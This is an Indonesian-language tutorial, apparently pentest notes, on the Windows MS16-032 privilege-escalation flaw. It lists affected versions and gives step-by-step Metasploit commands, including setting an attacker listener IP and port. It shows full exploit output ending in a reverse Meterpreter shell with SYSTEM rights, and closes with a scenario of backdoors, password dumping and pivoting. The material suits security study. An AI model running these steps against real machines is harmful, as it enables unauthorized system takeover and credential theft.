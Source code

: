 # MS16-032

## A. Apa itu MS16-032?

[MS16-032](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-0099) adalah kerentanan local privilege escalation pada sistem operasi Windows yang ditemukan pada layanan Secondary Logon Service (`seclogon.dll`). Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk menaikkan hak akses menjadi `SYSTEM`, yaitu level tertinggi di sistem Windows.

Eksploitasi ini terjadi karena adanya kesalahan pengelolaan handle token proses yang dilakukan oleh `seclogon.dll`, sehingga memungkinkan penyerang untuk menyisipkan proses baru dengan hak akses `SYSTEM` menggunakan teknik `CreateProcessWithLogonW()`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2016-0099`
- **Buletin Microsoft**: `MS16-032`
- **Tanggal Rilis**: `9 Maret 2016`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan:
- `Windows Vista SP2`
- `Windows Server 2008 SP2` dan `R2 SP1`
- `Windows 7 SP1`
- `Windows 8.1`
- `Windows Server 2012 Gold` dan `R2`
- `Windows RT 8.1`
- `Windows 10 Gold` dan `1511`

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS16-032:

   ```
   use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set session <ID>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set verbose true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   exploit
   ```

Jika hasil output-nya seperti ini:

```
[*] PS1 loaded from /usr/share/metasploit-framework/data/exploits/CVE-2016-0099/cve_2016_0099.ps1
[*] Writing payload file, C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1...
[*] Compressing script contents...
[+] Compressed size: 3723
[*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:59
+         $dhA = [Ntdll]::NtImpersonateThread($qdY, $qdY, [ref]$qi <<<< )
    + CategoryInfo          : InvalidOperation: (qi:Token) [], RuntimeExceptio 
   n
    + FullyQualifiedErrorId : NonExistingVariableReference
 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
Cannot convert argument "0", with value: "", for "DuplicateToken" to type "Syst
em.IntPtr": "Cannot convert null to type "System.IntPtr"."
At line:259 char:35
+     $dhA = [Advapi32]::DuplicateToken <<<< ($nxfWT, 2, [ref]$isTl)
    + CategoryInfo          : NotSpecified: (:) [], MethodException
    + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

EpGsSpsRhiU1UMP9YNyfQwBdFAPYrXHh
[+] Executed on target machine.
[*] Sending stage (203846 bytes) to 192.168.1.50
[*] Meterpreter session 8 opened (192.168.1.42:4444 -> 192.168.1.50:49161) at 2025-05-14 03:42:55 +0700
[+] Deleted C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1

meterpreter > 
```

Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

```
meterpreter > getuid 
```

Hasil output-nya seperti ini:

```
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

## E. Contoh Kasus:

Seorang attacker berhasil masuk ke sistem Windows 7 sebagai user biasa via exploit `MS17-010 (EternalBlue)`, namun aksesnya terbatas. Dengan `MS16-032`, attacker dapat meningkatkan hak akses ke `SYSTEM` dan memiliki kontrol penuh atas sistem, termasuk `instalasi backdoor`, `dump password`, dan `pivoting ke jaringan internal`.

   
